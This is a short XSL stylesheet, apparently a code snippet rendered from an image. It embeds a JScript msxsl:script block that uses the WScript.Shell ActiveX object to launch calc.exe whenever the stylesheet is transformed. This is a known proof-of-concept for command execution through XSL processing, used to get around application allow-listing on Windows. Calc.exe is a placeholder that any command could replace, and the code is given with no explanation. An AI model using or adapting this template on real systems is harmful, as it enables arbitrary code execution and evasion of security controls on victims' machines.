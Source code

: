 <?xml version='1.0'?>
<xsl:stylesheet version="1.0"
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
      xmlns:msxsl="urn:schemas-microsoft-com:xslt"
      xmlns:user="http://mycompany.com/mynamespace">

<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
	var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
      return nodelist.nextNode().xml;
	  
   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
